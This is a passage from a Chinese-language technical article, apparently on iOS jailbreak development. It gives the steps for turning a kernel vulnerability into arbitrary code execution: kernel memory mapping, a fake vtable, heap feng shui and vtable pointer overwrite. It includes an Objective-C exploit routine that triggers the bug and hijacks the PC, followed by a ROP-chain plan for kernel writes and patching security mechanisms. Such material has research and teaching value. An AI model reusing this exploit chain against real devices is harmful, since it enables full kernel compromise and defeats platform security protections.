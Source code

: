 1.  利用内存映射，将一部分内核内存映射到用户空间。
2.  通过内核读，计算出所映射的内存在内核中的真实地址。
3.  构造一个虚函数表，填充到映射的内存中。
4.  利用漏洞覆盖小对象的内存，只是 Payload 构造的主要目标是改写虚函数表指针。
5.  调用 Hacked 的对象的方法，比如：释放，这样就控制了 PC 指针。
    
    ```
    - (void)arbitraryExecutationDemo
    {
        mach_port_name_t port_960 = 0;
        [self prepareReceivePort1:NULL port2:&port_960];
    
        io_connect_t fengshuiObjBuf[PRTS_ContinuousMemoryCount] = {0};
        mach_vm_address_t firstObjectKAddr = NULL;
        mach_vm_address_t lastObjectKAddr = NULL;
        [self allocObjects:fengshuiObjBuf
          firstObjectKAddr:&firstObjectKAddr
           lastObjectKAddr:&lastObjectKAddr];
    
        _fengshui_not_released_obj_count = PRTS_FengshuiObjectCountKeep;
    
        uint8_t ool_buf_960[0x400] = {0};
        [self constructArbitraryExePayload:ool_buf_960
                             vtableAddress:_fake_port_kernel_address_base];
    
        [self doFengshuiRelease2:fengshuiObjBuf];
        [self waitFengshuiService];
    
        [self triggerExploit];
    
        [self allocVMCopy:port_960
                     size:960
                   buffer:ool_buf_960
          descriptorCount:2];
    
        [self releaseResource];
    
        io_connect_t hacked_connection =
        fengshuiObjBuf[PRTS_ContinuousMemoryCount - _fengshui_not_released_obj_count - 1];
    
        printf("[+] start to trigger arbitrary executation, device will reboot\n");
        IOServiceClose(hacked_connection);
        [self waitFengshuiService];
        printf("[+] success to trigger arbitrary executation, device will reboot\n");
    }
    
    ```

表26：触发任意代码执行

![p10](http://drops.javaweb.org/uploads/images/7b615c38c353fd1fa58bafe583f9be05219f265f.jpg)

图10：改写虚函数表的结果示例

在完成内核任意代码执行后，就可以进一步实现了内核写，思路是：制造执行 memcpy 的 ROP Chain。

上面只是描述了如何利用漏洞，越狱工具还需要实现 Kernel Patch Finder，用来寻找 ROP Gadgets，然后构造出 ROP Chain，Patch 掉内核的相关安全机制。
